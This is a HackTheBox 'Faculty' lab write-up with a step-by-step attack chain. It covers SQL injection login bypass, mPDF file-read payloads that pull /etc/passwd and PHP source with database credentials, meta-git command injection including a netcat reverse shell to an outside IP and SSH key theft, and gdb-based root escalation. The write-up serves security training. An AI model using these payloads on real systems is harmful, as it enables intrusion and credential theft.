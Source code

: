 ```yaml
---
title: HTB | Faculty
author: Zeropio
date: 2022-08-29
categories: [HackTheBox, Machines]
tags: [htb, linux, medium, machines]
permalink: /htb/labs/machines/faculty
---
```


![HTB Img](/assets/img/hackthebox/card/Faculty.png)

# Fingerprint

The nmap show:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e9:41:8c:e5:54:4d:6f:14:98:76:16:e7:29:2d:02:16 (RSA)
|   256 43:75:10:3e:cb:78:e9:52:0e:eb:cf:7f:fd:f6:6d:3d (ECDSA)
|_  256 c1:1c:af:76:2b:56:e8:b3:b8:8a:e9:69:73:7b:e6:f5 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://faculty.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The web redirect us to `/login.php`, asking for a ID. Testing some IDs (1,2,3…) we didn’t find anything. Trying to intercept the request with burp we see in the request a new page:

```
POST /admin/ajax.php?action=login_faculty HTTP/1.1
```

# Foothold

We see in that a page a login, easily bypassed with `' or '1'='1' #`.

We can download some of the pages as a pdf. Doing so will show us a new directory in the URL:

![Untitled](/assets/img/hackthebox/labs/faculty/Untitled.png)

We can search by **mpdf**, finding a vulnerabilty [here](https://github.com/mpdf/mpdf/issues/356). We can intercept the Burp request when creating a payload. We can see that it is url encoded two times and then base64 encode. We can use the same PoC as the vulnerability:

```html
<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="Attached File: /etc/passwd" pos-x="195" />
```

And encoded it as the same way:

```
JTI1M0Nhbm5vdGF0aW9uJTI1MjBmaWxlPSUyNTIyL2V0Yy9wYXNzd2QlMjUyMiUyNTIwY29udGVudD0lMjUyMi9ldGMvcGFzc3dkJTI1MjIlMjUyMGljb249JTI1MjJHcmFwaCUyNTIyJTI1MjB0aXRsZT0lMjUyMkF0dGFjaGVkJTI1MjBGaWxlOiUyNTIwL2V0Yy9wYXNzd2QlMjUyMiUyNTIwcG9zLXg9JTI1MjIxOTUlMjUyMiUyNTIwLyUyNTNF
```

In the attachment part of the pdf we can find the **passwd** file. We can see there two users with shell (apart from the root):

```
gbyolo:x:1000:1000:gbyolo:/home/gbyolo:/bin/bash
developer:x:1001:1002:,,,:/home/developer:/bin/bash
```

Trying to get the RSA of the users as:

```html
<annotation file="/home/developer/.ssh/id_rsa" content="/home/developer/.ssh/id_rsa"  icon="Graph" title="Attached File: /home/developer/.ssh/id_rsa" pos-x="195" />
```

Lead to an error generating the pdf.

Moving to the first page, we can see now some IDs. Loging with them redirect us to the schedule of each user. But while in the url we are in `faculty.htb/index.php`, Burp get the sites as a request to `/admin/ajax.php?action=get_schecdule` . If we go to that page without being loging, we can see an error.

![Untitled](/assets/img/hackthebox/labs/faculty/Untitled%201.png)

We can get this file with:

```html
<annotation file=" /var/www/scheduling/admin/admin_class.php" content=" /var/www/scheduling/admin/admin_class.php" icon="Graph" title="Attached File:  /var/www/scheduling/admin/admin_class.php" pos-x="195" />
```

Encoded as:

```
JTI1M0Nhbm5vdGF0aW9uJTI1MjBmaWxlPSUyNTIyJTI1MjAvdmFyL3d3dy9zY2hlZHVsaW5nL2FkbWluL2FkbWluX2NsYXNzLnBocCUyNTIyJTI1MjBjb250ZW50PSUyNTIyJTI1MjAvdmFyL3d3dy9zY2hlZHVsaW5nL2FkbWluL2FkbWluX2NsYXNzLnBocCUyNTIyJTI1MjBpY29uPSUyNTIyR3JhcGglMjUyMiUyNTIwdGl0bGU9JTI1MjJBdHRhY2hlZCUyNTIwRmlsZTolMjUyMCUyNTIwL3Zhci93d3cvc2NoZWR1bGluZy9hZG1pbi9hZG1pbl9jbGFzcy5waHAlMjUyMiUyNTIwcG9zLXg9JTI1MjIxOTUlMjUyMiUyNTIwLyUyNTNF
```

In this file we can see an include to **db_connect.php**. let’s get it:

```html
<annotation file=" /var/www/scheduling/admin/db_connect.php" content=" /var/www/scheduling/admin/db_connect.php" icon="Graph" title="Attached File:  /var/www/scheduling/admin/db_connect.php" pos-x="195" />
```

Encoded as:

```
JTI1M0Nhbm5vdGF0aW9uJTI1MjBmaWxlPSUyNTIyJTI1MjAvdmFyL3d3dy9zY2hlZHVsaW5nL2FkbWluL2RiX2Nvbm5lY3QucGhwJTI1MjIlMjUyMGNvbnRlbnQ9JTI1MjIlMjUyMC92YXIvd3d3L3NjaGVkdWxpbmcvYWRtaW4vZGJfY29ubmVjdC5waHAlMjUyMiUyNTIwaWNvbj0lMjUyMkdyYXBoJTI1MjIlMjUyMHRpdGxlPSUyNTIyQXR0YWNoZWQlMjUyMEZpbGU6JTI1MjAlMjUyMC92YXIvd3d3L3NjaGVkdWxpbmcvYWRtaW4vZGJfY29ubmVjdC5waHAlMjUyMiUyNTIwcG9zLXg9JTI1MjIxOTUlMjUyMiUyNTIwLyUyNTNF
```

There we can see some credentials, but we don’t have the user.

```php
<?php 

$conn= new mysqli('localhost','sched','Co.met06aci.dly53ro.per','scheduling_db')or die("Could not connect to mysql".mysqli_error($con));
```

We can try using them with SSH and the other two users we have. With gbyolo the credentials are valid.

# Privilege Escalation

We can use sudo with this user. Thanks to that we can see that we can run a command as developer:

```console
gbyolo@faculty:~$ sudo -l
[sudo] password for gbyolo: 
Matching Defaults entries for gbyolo on faculty:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User gbyolo may run the following commands on faculty:
    (developer) /usr/local/bin/meta-git
```

This report in [HackerOne](https://hackerone.com/reports/728040) told us about a vulnerability in meta-git, we can try doing it:

```console
gbyolo@faculty:~$ sudo -u developer meta-git clone 'poc | whoami'
	meta git cloning into 'poc | whoami' at poc | whoami
	
	poc | whoami:
	poc | whoami: command 'git clone poc | whoami poc | whoami' exited with error: Error: spawnSync /bin/sh EACCES
```

At first we got an error. That’s why developer doesn’t have access to our home. Let’s do it from a path that both accounts can get:

```console
gbyolo@faculty:/$ sudo -u developer meta-git clone 'test | whoami'
	meta git cloning into 'test | whoami' at test | whoami
	
	test | whoami:
	developer
	fatal: repository 'test' does not exist
	whoami: extra operand ‘test’
	Try 'whoami --help' for more information.
	test | whoami ✓
```

So we can execute code as developer. Trying a reverse shell result in failure:

```console
gbyolo@faculty:/$ sudo -u developer meta-git clone 'test | nc -e sh 10.10.16.44 443'
```

Let’s try getting the RSA:

```console
gbyolo@faculty:/$ sudo -u developer meta-git clone 'poc | cat ~/.ssh/id_rsa'
```

And we got it. We can now connect as developer, but where are not root yet. Using **linpeas** we can see some attacks paths. We see that we have access to `gdb`. We can make gdb take a root process and then make it execute a shell.

Search a process the root is using with a shell, for example Python:

```console
developer@faculty:~$ ps faux | grep ^root | grep python3
```

Then attach gdb to that process:

```console
developer@faculty:~$ gdb -p 3154
(gdb) call (void)system("chmod u+s /bin/bash")
[Detaching after vfork from child process 27552]
(gdb) quit
```

Now execute the shell:

```console
developer@faculty:~$ bash -p
bash-5.0# whoami
root
```
